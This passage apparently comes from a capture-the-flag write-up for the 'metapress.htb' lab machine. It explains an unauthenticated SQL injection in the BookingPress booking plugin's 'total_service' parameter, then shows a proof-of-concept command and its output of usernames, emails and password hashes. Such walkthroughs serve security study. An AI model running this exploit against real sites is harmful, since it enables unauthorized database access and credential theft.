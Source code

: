 An unauth user can make this api call to "bookingpress-appointment-booking" and there is a "bookingpress_front_get_category_services" api action which is vlunerable for SQLi.

And here "total_service" parameter is vulnerable for sql injection.

<div style="display:flex;">
  <img src="screenshots/http-metapress.htb-events-ajax-call-sqli.png" width="50%" />
  <hr style="border:none; border-right: 1px solid black; height: auto; margin: auto;" />
  <img src="screenshots/http-metapress.htb-events-ajax-call-sqli-dump.png" width="50%" />
</div>

Running the exploit

```bash
❯ python booking-press-expl.py -u http://metapress.htb -n dfb44d7330
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```
